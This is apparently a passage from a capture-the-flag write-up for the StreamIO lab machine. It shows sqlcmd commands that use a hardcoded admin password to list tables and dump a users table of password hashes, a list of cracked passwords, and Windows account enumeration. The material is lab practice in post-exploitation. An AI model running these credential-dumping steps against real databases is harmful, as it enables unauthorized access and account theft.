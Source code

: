 ```cmd
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"
```

Get data
```cmd
PS C:\inetpub\streamio.htb\admin> sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
id          username                                           password                                          
----------- -------------------------------------------------- --------------------------------------------------
          1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a                  
          2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332                  
          3 James                                              c660060492d9edcaa8332d89c99c9239                  
          4 Theodore                                           925e5408ecb67aea449373d668b7359e                  
          5 Samantha                                           083ffae904143c4796e464dac33c1f7d                  
          6 Lauren                                             08344b85b329d7efd611b7a7743e8a09                  
          7 William                                            d62be0dc82071bccc1322d64ec5b6c51                  
          8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5                  

(8 rows affected)
PS C:\inetpub\streamio.htb\admin> sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP; select username,password from users;'
```

```txt
nikk37 get_dem_girls2@yahoo.com
Lauren ##123a8j8w5123##
Sabrina !!sabrina$
```

```cmd
PS C:\inetpub\streamio.htb\admin> net user nikk37
net user nikk37
User name                    nikk37
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/22/2022 1:57:16 AM
Password expires             Never
Password changeable          2/23/2022 1:57:16 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/22/2022 2:39:51 AM

Logon hours allowed          All
```
